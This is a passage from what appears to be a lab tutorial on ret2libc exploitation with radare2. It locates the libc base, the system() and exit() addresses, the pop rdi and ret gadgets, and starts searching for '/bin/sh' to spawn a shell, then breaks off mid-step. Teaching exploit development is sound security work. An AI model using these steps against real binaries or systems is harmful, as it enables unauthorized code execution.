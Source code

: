 0x00007ffff7ffd000 # 0x00007ffff7ffe000 - usr     4K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk2 unk2 ; map.unk0._rw
0x00007ffffffde000 # 0x00007ffffffff000 * usr   132K s -rw- [stack] [stack] ; map.stack_._rw
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x
[0x7fffffffdfe8]> 
```
And we can specifically search for the positions of LIBC using dmm:
```
[0x5555555546c7]> dmm~libc 
0x7ffff79e2000 /lib/x86_64-linux-gnu/libc-2.27.so
```
So with that, we know the base address of libc once it's loaded in memory. If we locate addresses of relevant functions in memory we'll be able to tell how far they are from the base addr and use that difference to call the. This can be also done offline in static mode by "reversing" the library file (.so).

We can also do it to find addresses both static/dynamic for our calls of interest:
```
[0x7ffff7dd4090]> dmi libc system~ system$
Unknown library, or not found in dm
[0x7ffff7dd4090]> dcu main
Continue until 0x5555555546c7 using 1 bpsize
hit breakpoint at: 5555555546c7
[0x5555555546c7]> dmi libc system~ system$
1406 0x0004f420 0x7ffff7a31420   WEAK   FUNC   45 system
[0x5555555546c7]> 
```
We'll need system() to launch a command and exit() to exit the program without breaking too much basically
```
[0x5555555546c7]> dmi libc exit~ exit$
132 0x00043110 0x7ffff7a25110 GLOBAL   FUNC   26 exit
[0x5555555546c7]> 
```
And we'll also need a pop rdi, so we can use it to load a parameter into RDI (/bin/sh) before the call to system()
```
[0x5555555546c7]> /R pop rdi
  0x555555554753                 5f  pop rdi
  0x555555554754                 c3  ret
```
And a ret so we can align the stack to 16B when executing: (note that we can find instructions like ret, pop etc both in the libc space or in the general program space)
```
[0x5555555546c7]> /R ret
  0x55555555428f                 94  xchg eax, esp
  0x555555554290               f2f8  clc
  0x555555554292               2021  and byte [rcx], ah
  0x555555554294                 5a  pop rdx
  0x555555554295                 c3  ret

  0x555555554291                 f8  clc
  0x555555554292               2021  and byte [rcx], ah
  0x555555554294                 5a  pop rdx
  0x555555554295                 c3  ret
```
What remains is the address where we can find the string /bin/sh (so we can load a pointer to it inside rdi before calling system()) 

And as we told, we can directly reverse the libc file and search for the string. We'll find the (static) addr. 
```
lab@lab-VirtualBox:~$ r2 -A /lib/x86_64-linux-gnu/libc.so.6
[x] Analyze all flags starting with sym. and entry0 (aa)